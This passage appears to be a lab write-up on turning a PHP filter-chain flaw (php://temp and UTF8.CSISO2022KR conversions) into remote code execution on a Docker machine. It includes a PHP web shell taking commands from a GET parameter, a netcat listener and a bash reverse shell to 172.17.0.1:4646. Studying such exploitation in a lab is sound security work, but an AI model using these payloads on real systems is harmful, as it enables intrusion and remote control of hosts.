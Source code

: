 You can think that PHP interprets the final conversion, and let me say you that YES!.
And better still, you don't need figure out an valid .php file, because you can use another wrapper: **php://temp** that works without needing a specific name.
![[Pasted image 20230712205114.png]]
___
#### Injecting PHP Code
You can see that above conversion *UTF8.CSISO2022KR* adds some characters to the dynamic *php://temp* file. So, you can add characters ony by one to generate this PHP code.
```php
<?php system("id"); ?>
```
___
So, you can use this [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) tool to perfom this automatically.
![[Pasted image 20230712210334.png]]
___
And we could use this big string to do a RCE from *Docker* machine a bit of more complex :D.
![[Pasted image 20230712210744.png]]
___
Also, you can generate a template to do RCE by using *GET* method with this PHP code.
```php
<?php system($_GET["cmd"]); ?>
```
___
![[Pasted image 20230712211042.png]]
___
Finally adding at the end of the URL request this: **&cmd=<_COMMAND_>**.
We start *netcat* listener from the attacker.
```shell
sudo nc -nlvp 4646
```
___
And the **<_COMMAND_>** is.
```URL
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4646 0>%261"
```
___
Stablish the *netcat* connection.
![[Pasted image 20230712213026.png]]
___
